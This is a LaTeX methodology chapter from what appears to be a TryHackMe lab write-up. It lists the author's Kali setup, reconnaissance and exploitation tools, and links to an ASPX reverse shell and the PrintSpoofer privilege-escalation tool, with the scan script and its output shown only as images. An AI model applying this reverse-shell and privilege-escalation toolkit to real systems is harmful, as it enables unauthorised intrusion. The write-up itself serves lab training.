\chapter{Methodology}
In this chapter, the tools and methods used to discover
and exploit vulnerabilities are given.
\section{My lab setup}
\begin{itemize}
	\item OS: Kali 2023.2(arm64) running on VMware
	\item Ram: 8GB
	\item connection to the internal network with tryhackme OVPN file.
\end{itemize}
\section{Kali Tools Used}
\begin{itemize}
	\item Reconnaissance: nmap, smbclient,ffuf, gobuster
	\item Exploitation Tools: msfconsole, nikto, msfvenom
	\item Wordlists: directory-list-2.3-medium.txt 
\href{https://github.com/daviddias/node-dirbuster/blob/master/lists/directory-list-2.3-medium.txt}{\textcolor{blue}{here}}
	\item\label{shell} Reverse Shell: shell.aspx
\href{https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx}{\textcolor{blue}{here}}
	\item\label{priv_tool} PrintSpoofer for privilege escalation
\href{https://github.com/itm4n/PrintSpoofer}{\textcolor{blue}{here}}
\end{itemize}
\section{Reconnaissance}
\subsection{Ports scan}
I have used a custom script
(\href{})
which scans for all the open ports and then scans those open
ports for more information which include version, protocol,
service etc.\\
\underline{The script used :}
\begin{center}
	
\includegraphics[width=1.1\textwidth]{img/script.png}
\end{center}
\underline{Scan output:}
% \begin{center}
% 	
\includegraphics[width=1.1\textwidth]{img/default.png}
% \end{center}
%% \begin{center}
%% 	
\includegraphics[width=1.1\textwidth]{img/fade2.png}
%% \end{center}
\begin{center}
	
\includegraphics[width=1.1\textwidth,height=21cm]{img/scan.png}
\end{center}
%% \begin{center}
